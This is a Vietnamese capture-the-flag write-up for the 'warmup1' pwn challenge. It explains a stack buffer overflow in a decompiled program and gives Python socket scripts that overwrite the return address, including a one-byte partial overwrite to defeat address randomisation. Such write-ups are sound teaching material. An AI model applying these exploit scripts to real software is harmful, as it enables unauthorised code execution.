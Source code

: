 # warmup1

Thả file binary vào IDA thì chúng ta biết được flow chương trình như sau:

```C
ssize_t vuln()
{
  char buf[16];

  return read(0, buf, 0x100uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  alarm(0x3Cu);
  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  vuln();
  return 0;
}

int win()
{
  return execl("/bin/cat", "/bin/cat", "flag.txt", 0LL);
}
```

1. Từ hàm main call tới hàm vuln.
2. Tại vuln có khai báo một mảng char 16 phần tử, sau đó thực hiện read data vào buffer này và trả về giá trị của hàm read sau khi thực hiện.
3. Hàm win được khai báo nhưng ko có vị trí nào thực hiện call hàm này, và để ý vào hàm vuln đã thực hiện read 0x100 bytes vào một buffer 16 bytes. Từ đó ta có thể khai thác buffer overflow để sau khi chạy hàm vuln sẽ jump đến hàm win.

Giờ mình sẽ phân tích stack của vuln có những gì?
![](./img/1.png)

Bức ảnh trên mô tả stack của vuln, gồm 32 bytes trong đó:
- 16 bytes đầu là buf
- 8 bytes tiếp theo là giá trị của thanh ghi rbp được push lúc đầu hàm
- 8 bytes cuối là return address đc push từ lúc call hàm, để hàm biết phải return về đâu

Bây giờ khi đã biết được cấu trúc stack của vuln, mình sẽ thực hiện tấn công bằng cách nhập tràn buf sao cho giá trị của return address bằng địa chỉ hàm win.

![](./img/2.png)

Theo như IDA Pro thì địa chỉ của hàm win là 0x1219. Do tổ chức dữ liệu là [little endian](https://viblo.asia/p/little-endian-vs-big-endian-E375z0pWZGW). Nên mình sẽ phải đảo ngược địa chỉ của win khi write vào stack, tức là giá trị `0x0000000000001219` sẽ trở thành `19 12 00 00 00 00 00 00`.

Lúc này stack sẽ có dạng như sau:

![](./img/3.png)

Nhưng chúng ta không thể write thẳng vào return address được. Mình sẽ phải đi qua buf và saved registers nữa. Vậy những chỗ này mình sẽ điền gì? Thực ra những giá trị ở vùng này ko quan trọng nên mình thường sẽ điền bừa kí tự `a` vào (vì nó quen tay dễ bấm chứ không vì lí do gì : D)

Ok, và stack sau khi hoàn thiện sẽ trông như thế này:

![](./img/4.png)

Giờ thì mình sẽ convert qua code python dùng socket để thao tác thay netcat:

```Python
import socket

with socket.create_connection(('warmup1.ctf.maplebacon.org', 1337)) as s:
    s.send(b'a' * (16 + 8) + int(0x1219).to_bytes(8, 'little'))
    print(s.recv(1024).decode())
```

Run! Và kết quả nhận được không phải flag mà là segmentation fault. Lỗi này thường xảy ra khi mình truy cập vào một vùng nhớ không được phép truy cập. Vậy thì khả năng là vị trí return address mình đã nhập vào không đúng. Mình nhận ra file binary này compile với `/DYNAMICBASE` (tức là base address process sẽ được random mỗi lần chạy). Vậy thì mình sẽ phải tính lại địa chỉ của hàm win bằng base address + 0x1219. Nhưng vấn đề là làm sao để lấy đc base address? Sau khi nghĩ một hồi thì mình nhận ra, base address luôn là bội của 0x1000 vậy nên 3 số cuối của base address sẽ luôn là 000, vì thế nên địa chỉ hàm win cũng sẽ có 3 số cuối là 219. 

Thêm một điều kiện tuyệt vời nữa là nơi mà hàm vuln phải return về lại rất gần với hàm win

![](./img/5.png)

Ví dụ base address là 0x0deadbeef000. Địa chỉ mà hàm vuln phải return là 0x0deadbeef000 + 0x1212 = 0xdeadbef0212. Địa chỉ hàm win là 0x0deadbeef000 + 0x1219 = 0xdeadbef0219. Vậy thì 2 giá trị này chỉ khác nhau 1 byte duy nhất là 12 và 19. Vậy nên mình chỉ cần overflow 16 bytes buf, 8 bytes saved registers và 1 byte return address (7 bytes còn lại ko động đến thì giữ nguyên) là thành công.

```Python
import socket

with socket.create_connection(('warmup1.ctf.maplebacon.org', 1337)) as s:
    s.send(b'a' * (16 + 8) + b'\x19')
    print(s.recv(1024).decode())
```

Boom! Flag nhận được là ``mình không lưu flag mà server thì tắt rồi : D``


